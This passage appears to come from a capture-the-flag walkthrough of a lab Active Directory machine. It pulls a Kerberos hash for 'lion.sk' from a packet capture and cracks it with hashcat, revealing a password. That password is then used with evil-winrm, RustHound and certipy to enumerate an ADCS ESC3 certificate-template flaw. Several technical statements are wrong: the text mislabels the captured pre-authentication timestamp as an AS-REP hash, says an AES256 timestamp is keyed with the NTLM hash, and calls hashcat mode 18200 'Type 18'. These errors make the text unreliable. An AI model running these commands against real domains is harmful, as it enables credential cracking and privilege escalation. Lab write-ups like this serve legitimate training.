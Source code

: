 2.  **Analyze `wso1.pcap` with `tshark` or `wireshark` and `kekeo`/`Rubeus`:**
    The video uses a custom Python script called `KB5_Roast_Parser.py` (found on GitHub, e.g., by `lyonkit`) to extract Kerberos AS-REP hashes from the pcap.

      * **Manual Extraction Logic:** The pcap contains an AS-REQ (Kerberos Authentication Service Request) for `lion.sk`. The response indicates "pre-authentication required," providing a salt (realm + username) and an encrypted timestamp (E-type 18, AES256-SHA1). This timestamp is encrypted with `lion.sk`'s NTLM hash, salted with the realm and username.
      * **Using `KB5_Roast_Parser.py`:**
        ```bash
        python3 KB5_Roast_Parser.py --file wso1.pcap --as-request
        ```
        This will output the Kerberos AS-REP hash for `lion.sk`.

3.  **Crack Kerberos AS-REP Hash:**
    Copy the extracted hash and use Hashcat.

    ```bash
    hashcat -m 18200 <hash> /usr/share/wordlists/rockyou.txt --force
    ```

      * `-m 18200`: Specifies the hash type for Kerberos AS-REP (Type 18).
        This reveals `lion.sk`'s password: **`2WSXcde#`**.

### ADCS Escalation with `certipy` (ESC3)

With `lion.sk`'s credentials, the process moves to exploiting ADCS.

1.  **Test `lion.sk` Credentials:**

    ```bash
    netexec smb dc1.certificate.htb -u lion.sk -p '2WSXcde#'
    evil-winrm -i 10.10.11.71 -u lion.sk -p '2WSXcde#'
    ```

    Confirm WinRM access.

2.  **Enumerate Group Memberships:**
    In the `evil-winrm` session, run `whoami /all`. This shows `lion.sk` is a member of **`Domain CRA Managers`**. This group is key for ADCS attacks.

3.  **Collect BloodHound Data (RustHound):**

    ```bash
    RustHound -d certificate.htb -u lion.sk -p '2WSXcde#' --dc 10.10.11.71
    ```

    Upload the generated JSON files to BloodHound to visualize attack paths.

4.  **Identify Vulnerable Certificate Templates (ESC3):**
    Use `certipy` to find vulnerable ADCS configurations.

    ```bash
    certipy find -u lion.sk -p '2WSXcde#' -target-dc certificate.htb -dc-ip 10.10.11.71 --vulnerable
    ```

    This command outputs a report. It highlights a vulnerability to **ESC3**, where a certificate template has the `Request Agent EKU` (Enhanced Key Usage) set, allowing the `lion.sk` user (via `Domain CRA Managers`) to register certificates on behalf of other users.
